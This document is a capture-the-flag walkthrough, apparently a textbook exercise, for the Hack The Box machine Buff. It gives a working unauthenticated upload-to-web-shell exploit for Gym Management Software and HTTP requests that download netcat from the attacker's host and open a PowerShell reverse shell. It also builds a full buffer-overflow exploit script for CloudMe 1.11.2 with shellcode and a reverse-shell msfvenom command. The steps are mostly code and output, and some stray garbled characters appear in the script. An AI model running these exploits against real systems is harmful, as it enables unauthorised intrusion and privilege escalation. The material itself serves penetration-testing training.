




# Exercise: Exploiting a Windows Buffer Overflow on Buff


The machine Buff is a Windows box that is running a website on port 8080 that is built using "Gym Management Software 1.0". This software has a unauthenticated remote code execution vulnerability that can be exploited to upload a web shell. Using the web shell, we can upload netcat onto the box and get a reverse shell as the user buff\shaun. Once on the box, you will discover an application that is running as Administrator called CloudMe\_1112.exe. This can be exploited through a buffer overflow to get an elevated reverse shell as Administrator.

## Initial Discovery

An nmap shows three ports open: 5040, 7680 and 8080. Port 8080 has been opened by an Apache web server that is running PHP \(7.4.6\). The other two ports haven't revealed anything specific and so we can leave them for now.

Navigating to http://buff.htb:8080 you will find a web site for a Gym; mrb3n's Bro Hut \(Figure 3-13\).


Looking through the pages, the Contact page shows that the web site was made using "Gym Management Software 1.0". There is also a copyright notice for Projectworlds.in \(Figure 1-14\).




Searching for exploits related to this software, we find details of an unauthenticated exploit on the Exploit Database \(https://www.exploit-db.com/exploits/48506\) which allows for an unauthenticated remote code execution. We can download the exploit by using searchsploit to mirror it to the current directory using the -m flag:

```bash
searchsploit -m 48506
```

The exploit is based on an upload function in the app that allows the upload of image files. The PHP file upload.php does not check if the user is authenticated and does not properly validate the uploaded file.

```bash
$user = $_GET['id'];
<SNIP>
move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".
 $user.".".$ext);
```

Looking at the source code for upload.php, the uploaded file is first renamed v to the value supplied as the id argument u to upload.php

It will take the extension of that file from the first bit of text it finds after the "." u:

```bash
$pic=$_FILES["file"]["name"];
u $conv=explode(".",$pic);
ext=$conv['1'];
```

It is a good idea to make a couple of changes to the exploit code. Firstly, it has been written for Python 2 and so needs parentheses \(\) for all of its print statements if run with Python 3. Curiously some have parentheses, but others do not. The other thing I did was remove the PNG magic bytes that are added to the file. These bytes won't affect the PHP code and are used by some programs to identify the file type as a PNG file. However, the code in the Gym Management Software does not check this so it is superfluous.

Running the code, we get access to a web shell:

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $python3 48506.py http://buff.htb:8080/
 /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
 \/
[+] Successfully connected to webshell.
Exiting.
┌─[✗]─[rin@parrot]─[~/boxes/Buff]
└──╼ $curl http://buff.htb:8080/upload/kamehameha.php?telepathy=whoami
buff\shaun
```

Because curl is slightly unwieldy to use, we can send a curl request to Burp Suite, intercept that request and send it to the Repeater \(using the CTL-R key\)

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $curl -x 127.0.0.1:8080 http://buff.htb:8080/upload/kamehameha.php?telepathy=dir
```

In Repeater in Burp Suite, we can now get a reverse shell by uploading netcat and executing that. You can get a Windows version of netcat from /usr/share/windows-resources/binaries/nc.exe and copy it to your working directory. Start a Python web server on your box:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Buff]
└──╼ $python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then start a netcat listener:

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
```

Then in Burp send:

```bash
GET /upload/kamehameha.php?telepathy=curl+http%3a//10.10.14.137%3a8000/nc.exe+-o+nc.exe HTTP/1.1
Host: buff.htb:8080
User-Agent: curl/7.72.0
Accept: */*
Connection: close
```

Remember to change the IP address to your box's IP address.

And then run the reverse shell

```bash
GET /upload/kamehameha.php?telepathy=nc.exe+10.10.14.137+6001+-e+powershell HTTP/1.1
Host: buff.htb:8080
User-Agent: curl/7.72.0
Accept: */*
Connection: close
```

To get the reverse shell on your box:

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.137] from (UNKNOWN) [10.129.55.153] 49699
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\xampp\htdocs\gym\upload>
```

We are on the box now as user buff\shaun, although this section was talking about using custom exploits to obtain initial access, the actual buffer overflow exploit comes from the privilege escalation step. After gaining access, we start the discovery process to find out more about the environment, other users, configuration, software installed etc. In shaun's home directory in Downloads, you will find a program called CloudMe\_1112.exe. Looking again at Exploit DB, we see that there is a buffer overflow vulnerability for the version 1.11.2 of CloudMe which is a file storage service \(https://www.exploit-db.com/exploits/48389\). The exploit details that the CloudMe app is running on port 8888 and if we do a netstat to look at what the machine is listening on, you will see that port 8888 is open:

```bash
PS C:\users\shaun\downloads> netstat -an | findstr LISTEN
netstat -an | findstr LISTEN
…
 TCP 127.0.0.1:8888 0.0.0.0:0 LISTENING
…
PS C:\users\shaun\downloads>
We can confirm that this is opened by CloudMe by running the PowerShell command:
PS C:\users\shaun\downloads> Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess
Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess
Handles NPM(K) PM(K) WS(K) CPU(s) Id SI ProcessName
------- ------ ----- ----- ------ -- -- -----------
 390 26 31996 38624 640 0 CloudMe
```

Of course, we don't know who the owner of this process is because that information needs a higher level of privilege than we have as the user shaun but as this is Hack The Box, it is likely that all clues point to Administrator.

We could just use the exploit code on Exploit DB but we are going to do this from scratch. We are going to do this on our Windows 10 Commando VM. Download the version of CloudMe from Exploit DB \(https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe\_1112.exe\). To explore the program we are going to use the Immunity debugger \(which can be installed from https://www.immunityinc.com/products/debugger/\) and install the addon for Immunity called mona \(which can be installed from https://github.com/corelan/mona\).

Running CloudMe will involve registering an account \(which is free\). Once it is running, close it and then drag and rop the exe file into an Immunity window. You should see windows as shown in Figure 3-9.



Debugging CloudMe in Immunity debugger

If the program says Paused at the bottom right of the window, then select Run from the Debug menu. We are going to send a pattern of text created by using msf-pattern\_create -l 1500 on the command line or in Immnunity, you can use !mona pattern\_create 1500 in the command window at the bottom of the screen.

Once CloudMe is running, you can send the pattern to CloudMe using netcat:

```bash
PS C:\Users\rin\Desktop> nc 127.0.0.1 8888
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9…
PS C:\Users\rin\Desktop>
```

This will cause an exception in the CloudMe app that will be reported by Immunity giving an address that it is trying to execute \(Figure 3-10\).



Buffer overflow showing ascii characters in instruction pointer rip

We can confirm the address that is causing the exception by looking at the values in the registers which are listed in Immunity's register window:

```bash
EAX 00000001
ECX 77597084 msvcrt.77597084
EDX 0DE00000
EBX 69423569
ESP 00A3D3E0 ASCII "Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9
EBP 6A423969
ESI 37694236
EDI 42386942
EIP 316A4230
```

This shows the pattern on the stack pointed to by ESP and the instruction pointer EIP has 316A4230. If we use msf-pattern\_offset to find out the offset, we find it is at 1052

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $msf-pattern_offset -q 316A4230 -l 1500
[*] Exact match at offset 1052
In mona in Immunity, we can do the same thing with !mona pattern_offset 0x316a4230:
Pattern 0Bj1 (0x316a4230) found in cyclic pattern at position 1052
```

Now that we know how to overwrite the instruction pointer held in EIP, the plan is to execute shell code from the stack by using a jmp ESP instruction which will jump to, as in execute, the address pointed to by the register ESP. We can use mona to search for this instruction by using !mona jmp -r ESP \(Figure 3-17\).


We get a great deal of output showing the locations of either jmp esp instructions found and the libraries they are found in, or other equivalent instructions like push esp + ret. This works like a jump instruction because the return instruction ret will return to whatever is on the top of the stack and the value stored in the register ESP is pushed to the top of the stack with push esp.

Both the jmp esp and the push esp + ret are found in Qt5Core.dll and this library does not have ASLR protection.

```bash
0x68a98a7b : jmp esp | {PAGE_EXECUTE_READ} [Qt5Core.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v5.9.0.0 (c:\Users\rin\CloudMe\Qt5Core.dll)
0x68bad568 : jmp esp | {PAGE_EXECUTE_READ} [Qt5Core.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v5.9.0.0 (c:\Users\rin\CloudMe\Qt5Core.dll)
…
0x6ac0bfae : push esp # ret | {PAGE_EXECUTE_WRITECOPY} [qwindows.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v5.9.0.0 (C:\Users\rin\CloudMe\platforms\qwindows.dll)
0x68a842b5 : push esp # ret | {PAGE_EXECUTE_READ} [Qt5Core.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v5.9.0.0 (c:\Users\rin\CloudMe\Qt5Core.dll)
0x68aa11e6 : push esp # ret | {PAGE_EXECUTE_READ} [Qt5Core.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v5.9.0.0 (c:\Users\rin\CloudMe\Qt5Core.dll)
```

The exploit on Exploit DB chose to use the push esp instruction rather than the jmp esp one. Either will work \(you can verify this yourself\). However, now that we have found out all of the necessary information, we can go ahead and create exploit code. We will stick with using shellcode that will run the application calc.exe. This makes testing easier because it is simple visual way of making sure the exploit is working.

```bash
uvwxyz{|}~import socket
target = "127.0.0.1"
junk = b"A" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x90" * 30
# msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
buf = b""
buf += b"\xbf\xc9\x93\xa7\xbb\xd9\xcb\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x31\x83\xc3\x04\x31\x7b\x0f\x03\x7b\xc6\x71"
buf += b"\x52\x47\x30\xf7\x9d\xb8\xc0\x98\x14\x5d\xf1\x98\x43"
buf += b"\x15\xa1\x28\x07\x7b\x4d\xc2\x45\x68\xc6\xa6\x41\x9f"
buf += b"\x6f\x0c\xb4\xae\x70\x3d\x84\xb1\xf2\x3c\xd9\x11\xcb"
buf += b"\x8e\x2c\x53\x0c\xf2\xdd\x01\xc5\x78\x73\xb6\x62\x34"
buf += b"\x48\x3d\x38\xd8\xc8\xa2\x88\xdb\xf9\x74\x83\x85\xd9"
buf += b"\x77\x40\xbe\x53\x60\x85\xfb\x2a\x1b\x7d\x77\xad\xcd"
buf += b"\x4c\x78\x02\x30\x61\x8b\x5a\x74\x45\x74\x29\x8c\xb6"
buf += b"\x09\x2a\x4b\xc5\xd5\xbf\x48\x6d\x9d\x18\xb5\x8c\x72"
buf += b"\xfe\x3e\x82\x3f\x74\x18\x86\xbe\x59\x12\xb2\x4b\x5c"
buf += b"\xf5\x33\x0f\x7b\xd1\x18\xcb\xe2\x40\xc4\xba\x1b\x92"
buf += b"\xa7\x63\xbe\xd8\x45\x77\xb3\x82\x03\x86\x41\xb9\x61"
buf += b"\x88\x59\xc2\xd5\xe1\x68\x49\xba\x76\x75\x98\xff\x89"
buf += b"\x3f\x81\xa9\x01\xe6\x53\xe8\x4f\x19\x8e\x2e\x76\x9a"
buf += b"\x3b\xce\x8d\x82\x49\xcb\xca\x04\xa1\xa1\x43\xe1\xc5"
buf += b"\x16\x63\x20\xa6\xf9\xf7\xa8\x07\x9c\x7f\x4a\x58"
payload = junk + EIP + NOPS + buf
try:
 s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect((target,8888))
 s.send(payload)
except Exception as e:
 print(sys.exc_value)
```

 In this code, we set a variable junk to be 1052 characters u. The next 4 bytes after that will overflow into the EIP and so we create a variable with the address of the push esp + ret, gadget. Finally, there is another variable NOPS that is set to 30 times the hex byte 90. I will come back to what this is shortly. We can create the payload for the exploit using msfvenom. The command syntax is shown in the code as a comment v. The -a flag is the architecture of the exploit which is x86. The -p flag specifies the platform and, in this case, it is a Windows executable with the executable specified by the CMD= parameter. We have specified some bytes to avoid with the -b flag. This is done because sending null bytes and carriage return or linefeed characters can cause some network connections to terminate and we want to avoid them. Finally, we can specify the output format as Python using the -f flag.

Using the output from msfvenom, we create a variable buf to hold the shell code w. We then construct the payload with the combination of junk + EIP + NOPS + buf x. Finally, we can create a socket, connect to the target and send the payload y.

The result of running the exploit is shown in Figure 5.12. If successful, you should see the calculator application running.



Buffer overflow has succeeded and calculator is run

One thing you will notice about the exploit code is that it has added 30 bytes of b"\x90" which is called a NOP sled. The NOP instruction is a no operation instruction, as in, it doesn't do anything. The processor will simply move to the next byte until it hits the shell code. This allows for the possibility that we haven't been able to calculate the exact offset for the shell code because of memory alignment or other factors.

To get this exploit running on the box, we need a tunnel and so you can use chisel \(which can be installed from https://github.com/jpillora/chisel\).

Get the windows version of chisel onto Buff

```bash
curl http://10.10.14.137:8000/chisel.exe -o chisel.exe
```

On the Parrot box run chisel as a server waiting for a reverse connection:

```bash
./chisel server -p 9000 --reverse
```

Then run chisel.exe as a client on Buff

```bash
PS C:\xampp\htdocs\gym\upload> .\chisel.exe client 10.10.14.137:9000 R:8888:127.0.0.1:8888
.\chisel.exe client 10.10.14.137:9999 R:8888:127.0.0.1:8888
2020/11/29 09:05:30 client: Connecting to ws://10.10.14.137:9999
2020/11/29 09:05:34 client: Connected (Latency 461.1332ms)
```

We will cover using chisel for tunnels in more detail when looking at pivoting but this is the same principle as using SSH as a tunnel.

We can now connect to the CloudMe application from our Parrot box on 127.0.0.1 and port 8888

Taking the exploit code that we developed on the Windows machine, we need to replace the shell code with a reverse shell again using msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.137 LPORT=6003 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

Start a listener on port 6003 and then run the exploit code:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Buff]
└──╼ $nc -lvnp 6003
listening on [any] 6003 ...
connect to [10.10.14.137] from (UNKNOWN) [10.129.56.154] 49683
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
buff\administrator
```


